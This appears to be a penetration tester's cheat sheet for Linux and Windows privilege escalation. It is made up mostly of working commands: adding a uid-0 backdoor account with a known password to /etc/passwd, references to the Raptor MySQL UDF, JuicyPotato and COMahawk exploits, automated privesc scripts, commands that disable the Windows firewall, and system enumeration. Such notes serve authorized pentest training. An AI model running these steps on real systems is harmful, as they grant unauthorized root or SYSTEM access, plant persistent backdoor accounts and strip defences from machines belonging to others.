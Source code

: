 // PRIVESC: /etc/passwd
	1) openssl passwd mrcake (get hash generated from this command; e.g., hKLD3431415ZE)
	2) echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
	3) su root2
	4) Password: mrcake

// MYSQL RUNNING AS ROOT
# Raptor exploit: https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/	

// AUTOMATED PE CHECK SCRIPTS
Linuxprivchecker.py (at the bottom it has exploit suggestions)
linux-exploit-suggester
Linux_Exploit_Suggester.pl -k <KERNEL VERSION> (e.g., "2.6")
lse.sh
linpeas.sh
./unix-privesc-check standard				# Linux checks for non-root writable config files
./unix-privesc-check detailed > output.txt; grep "WARNING" output.txt
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

##########################################################################
##					WINDOWS PRIVILEGE ESCALATION						##
##########################################################################
# https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Windows-files.txt
whoami && whoami /priv && hostname
	# SeImpersonatePrivilege: JuicyPotato.exe (not for Windows Server 2019; need CLSID http://ohpe.it/juicy-potato/CLSID/)
net user <username>
net user				
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
	# WIN10-1803 PE: COMahawk.exe
comahawk.exe 
tasklist /SVC
dir "C:\Program Files"
dir "C:\Program Files (x86)"
dir /Q <DIRECTORY>
wmic product get name,version,vendor				
wmic qfe get Caption, Description, HoxFixID,InstalledOn
ipconfig /all		
route print		
netstat -ano 
netsh advfirewall show currentprofile		
netsh advfirewall firewall show rule name=all
netsh advfirewall show allprofiles
netsh advfirewall firewall set allprofiles state=off
netsh firewall set opmode disable
schtasks /query /fo LIST /v	
c:\WINDOWS\SchedLgU.Txt
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} | findstr "Program Files"
accesschk.exe -uws "Everyone" "C:\Program Files"
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"